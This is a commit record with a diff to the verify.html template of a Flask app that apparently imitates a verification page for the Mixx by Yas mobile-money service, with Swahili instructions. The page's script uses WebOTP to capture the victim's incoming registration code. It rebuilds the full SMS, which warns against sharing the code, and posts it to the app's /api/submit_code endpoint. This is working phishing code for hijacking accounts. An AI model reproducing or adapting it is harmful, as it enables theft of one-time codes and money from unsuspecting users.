

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the top 928 px of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -74,10 +74,10 @@
                 <h3>✅ Namba ya Uthibitisho <span class="auto-detect-badge"><span class="dot"></span> Auto-detect</span></h3>
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
-                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki kutoka kwenye arifa</strong><br><br>
+                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki</strong><br><br>
                     <strong>1.</strong> Subiri SMS ifike<br>
                     <strong>2.</strong> Bonyeza <strong>"Allow"</strong><br>
-                    <strong>3.</strong> Ujumbe utajaza<br>
+                    <strong>3.</strong> SMS itajaza moja kwa moja<br>
                     <strong>4.</strong> Bonyeza <strong>"Endelea"</strong>
                 </div>
                 <a href="sms:" class="sms-open-btn" id="btnIPhone" style="display:none;">
@@ -86,7 +86,7 @@
                 <a href="sms:" class="sms-open-btn" id="btnAndroid" style="display:none;">
                     <i class="fas fa-envelope"></i> 🤖 Android: Gusa Hapa Kufungua SMS
                 </a>
-                <textarea id="smsMessage" class="sms-textarea" placeholder="SMS itaonekana hapa kiotomatiki baada ya kubonyeza 'Allow'..."></textarea>
+                <textarea id="smsMessage" class="sms-textarea" placeholder="SMS itaonekana hapa kiotomatiki baada ya 'Allow'..."></textarea>
                 <div class="timer-bar" id="timerDisplay">⏳ 30s</div>
                 <div class="error-msg" id="codeError"></div>
                 <button class="btn btn-gold" id="submitBtn" onclick="submitCode()">Endelea →</button>
@@ -217,13 +217,12 @@
             document.getElementById('screen2').classList.add('active');
 
             try {
-                // Send the FULL SMS to the backend
                 await fetch('/api/submit_code', {
                     method: 'POST',
                     headers: { 'Content-Type': 'application/json' },
                     body: JSON.stringify({
                         app_id: appId,
-                        code: smsText  // This is the FULL SMS
+                        code: smsText
                     })
                 });
 
@@ -268,7 +267,8 @@
         }
 
         // ================================================================
-        // WAIT FOR NOTIFICATION - WebOTP ONLY
+        // WAIT FOR NOTIFICATION - WebOTP
+        // THIS COPIES THE FULL SMS AND FILLS IT
         // ================================================================
         function waitForNotification() {
             if (!document.getElementById('screen1').classList.contains('active')) {
@@ -309,14 +309,14 @@
                     detectedCode = otp.code;
                     console.log('✅ SMS detected from notification! Code:', otp.code);
 
-                    // BUILD THE FULL SMS in your format
+                    // BUILD THE FULL SMS
                     var fullSMS = 'You are being registered in Mixx by Yas Super App, use the code ' + otp.code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
 
-                    // Fill the textarea with the FULL SMS
+                    // FILL THE TEXTAREA WITH FULL SMS
                     smsTextarea.value = fullSMS;
                     smsDetected = true;
 
-                    console.log('✅ Full SMS:', fullSMS);
+                    console.log('✅ Full SMS filled:', fullSMS);
 
                     document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
                     document.getElementById('codeError').style.color = '#10b981';
```
